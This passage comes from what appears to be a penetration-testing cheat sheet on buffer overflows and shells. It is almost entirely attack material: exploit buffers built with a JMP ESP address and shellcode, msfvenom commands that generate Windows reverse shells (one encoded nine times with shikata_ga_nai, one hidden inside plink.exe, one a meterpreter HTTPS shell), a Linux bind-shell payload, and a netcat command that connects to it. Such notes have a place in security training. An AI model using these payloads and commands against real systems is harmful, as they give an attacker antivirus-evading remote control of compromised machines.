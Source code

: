     -   Final Payload with NOP slide  
    
            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    -   Create a PE Reverse Shell  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -o shell\_reverse.exe

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe

    -   Create a PE reverse shell and embed it into an existing
        executable  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe

    -   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    -   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address  
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

    -   Connect to the shell with netcat:  
        nc -v $ip 4444
        
Shells
===================================================================================================================================

-   Netcat Shell Listener  

